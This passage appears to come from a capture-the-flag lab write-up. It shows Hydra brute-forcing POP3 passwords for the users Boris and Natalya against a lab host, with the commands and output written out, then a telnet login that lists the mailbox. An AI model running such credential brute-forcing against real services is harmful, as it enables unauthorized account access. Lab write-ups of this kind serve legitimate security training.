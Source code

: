 
### If those creds don't seem to work, can you use another program to find other users and passwords? Maybe Hydra? What's their new password?
- Brute force the password of `Boris`:

```bash
$ hydra -l Boris -P /usr/share/wordlists/rockyou.txt -s 55007 -f 10.10.251.158 pop3 -V
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-26 13:54:07
[..snip..]

[55007][pop3] host: 10.10.251.158   login: Boris   password: REDACTED
[STATUS] attack finished for 10.10.251.158 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

- Brute force the password of `Natalya`:

```bash
$ hydra -l Natalya -P /usr/share/wordlists/fasttrack.txt -s 55007 -f 10.10.251.158 pop3 -V

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-26 14:15:59
[..snip..]

[55007][pop3] host: 10.10.251.158   login: Natalya   password: REDACTED
[STATUS] attack finished for 10.10.251.158 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

### Inspect port 55007, what services is configured to use this port?
- **Answer:** telnet
- **Steps to Reproduce:** We can connect to this port using `telnet`

### What can you find on this service?
- **Answer:** emails
- **Steps to Reproduce:** 

- Using Natalya's credentials:

```bash
$ telnet 10.10.251.158 55007
Trying 10.10.251.158...
Connected to 10.10.251.158.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER Natalya
+OK
PASS REDACTED

+OK Logged in.
-ERR Unknown command: 
STAT
+OK 2 1679
LIST
+OK 2 messages:
1 631
2 1048
```